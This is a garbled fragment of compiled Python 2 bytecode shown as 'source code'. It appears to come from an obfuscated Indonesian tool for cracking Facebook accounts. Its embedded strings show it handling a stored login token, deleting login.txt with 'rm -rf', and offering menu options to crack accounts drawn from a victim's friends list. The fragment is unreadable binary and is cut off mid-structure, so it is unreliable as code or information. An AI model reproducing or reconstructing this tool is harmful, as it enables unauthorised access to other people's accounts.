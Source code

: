 <Sazxt>Rd\x00\x00\x00\xa8\x00\x00\x00s\x1e\x00\x00\x00\x00\x01\x0c\x01\x0c\x01\x05\x01\n\x01\x0c\x01\n\x01\x0c\x01\n\x01\x0c\x01\r\x01\n\x01\r\x01\n\x02\x05\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00s\x91\x00\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01y\x19\x00t\x02\x00d\x02\x00d\x03\x00\x83\x02\x00j\x03\x00\x83\x00\x00a\x04\x00Wn7\x00\x04t\x05\x00k\n\x00r_\x00\x01\x01\x01d\x04\x00GHt\x00\x00j\x01\x00d\x05\x00\x83\x01\x00\x01t\x06\x00j\x07\x00d\x06\x00\x83\x01\x00\x01t\x08\x00\x83\x00\x00\x01n\x01\x00Xt\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01t\t\x00GHd\x07\x00GHd\x08\x00GHd\t\x00GHd\n\x00GHt\n\x00\x83\x00\x00\x01d\x00\x00S(\x0b\x00\x00\x00NR$\x00\x00\x00s\t\x00\x00\x00login.txtR%\x00\x00\x00s\x1f\x00\x00\x00\x1b[1;91m[!] \x1b[1;97mToken invalids\x10\x00\x00\x00rm -rf login.txti\x01\x00\x00\x00sp\x00\x00\x00\x1b[1;97m\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x97s?\x00\x00\x00\x1b[1;91m[\x1b[1;97m1\x1b[1;91m]\x1b[1;96m.\x1b[1;97m Crack dari daftar temans8\x00\x00\x00\x1b[1;91m[\x1b[1;97m2\x1b[1;91m]\x1b[1;96m.\x1b[1;97m Crack dari temans0\x00\x00\x00\n\x1b[1;91m[\x1b[1;97m0\x1b[1;91m]\x1b[1;96m.\x1b[1;97m Kembali(\x0b\x00\x00\x00R\x05\x00\x00\x00R=\x00\x00\x00R>\x00\x00\x00Rc\x00\x00\x00R[\x00\x00\x00RA\x00\x00\x00R\x1c\x00\x00\x00R\x1d\x00\x00\x00R\x08\x00\x00\x00RB\x00\x00\x00t\x0b\x00\x00\x00pilih_super(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00